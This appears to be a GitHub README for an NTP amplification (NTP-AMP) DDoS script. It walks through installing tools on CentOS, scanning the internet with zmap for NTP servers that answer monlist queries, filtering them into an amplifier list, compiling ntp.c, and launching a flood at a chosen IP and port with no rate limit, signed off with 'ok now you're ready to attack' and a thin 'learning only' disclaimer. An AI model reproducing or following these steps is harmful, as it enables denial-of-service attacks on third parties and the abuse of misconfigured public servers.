 this is a NTP-AMP script for cyber security learning
operating system：centOS 7
prepare repositorys：Enter the command below

-----------------------------------------------
yum install gcc libcap  libpcap libpcap-devel screen php dstat cmake gmp gmp-devel gengetopt byacc flex git json-c
yum -y install zmap
--------------------------------------------------

Upload ntpchecker and ntp_123_monlist.pkt to your server
Enter the command below to start scanning agent list（it wil take a looong time so pls be patient）:

-------------------------------------------------------------------------------------------------
screen zmap -p 123 -M udp --probe-args=file:/root/ntp_123_monlist.pkt -o monlist_fingerprint.txt
---------------------------------------------------------------------------------------------------

give ntpchecker 777 permission：
chmod 777 ntpchecker

Operational inspection：
screen ./ntpchecker monlist_fingerprint.txt step1.txt 1 0 1

filter list:
awk '$2>419{print $1}' step1.txt | sort -n | uniq | sort -R > ntpamp.txt

Compilation and attack:
yum install gcc libcap libpcap libpcap-devel 
gcc -lpthread ntp.c -lpcap -o ntp 
 
 ATTACK:
./ntp ip port list(ntpamp.txt) thread ppslimit(-1=no limit) attacktime(second)
example: ./ntp 127.0.0.1 80 ntpamp.list 1500 -1 600
 ok now you're ready to attack
 this script is just for cyber attack learning and pls don't be evil
 
